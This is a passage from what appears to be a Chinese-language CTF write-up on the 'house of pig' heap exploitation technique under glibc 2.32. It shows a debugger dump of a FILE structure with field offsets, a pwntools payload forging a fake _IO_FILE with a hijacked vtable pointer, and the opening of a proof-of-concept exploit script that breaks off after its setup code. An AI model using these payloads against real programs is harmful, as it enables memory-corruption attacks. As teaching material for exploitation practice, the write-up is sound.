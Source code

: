 ```c
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x0,
    _offset = 0,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0, // 偏移0xc0
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7faf4b1fe580 <_IO_str_jumps> // 偏移0xd8
}
```

`payload`例子：

```python
fake_IO = p64(0)*2 # 通常为伪造的chunk的size域和prev_size域，无法控制
fake_IO += p64(0)*2
fake_IO += p64(1) + p64(0xffffffffffff)
fake_IO += p64(0)
fake_IO += p64(heap_base + 0x2420)
fake_IO += p64(heap_base + 0x2420 + 206)
fake_IO = fake_IO.ljust(0xb0, b'\x00') + p64(0)
fake_IO = fake_IO.ljust(0xc8, b'\x00') + p64(_IO_str_vtable)

payload = fake_IO[0x10:]
```

## POC

通过编译`bug_house.c`的程序，在`glibc2.32`下完成漏洞利用：

```c
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pig'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug():
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid)
    pause()

choice_words = 'Please input your choice>'
```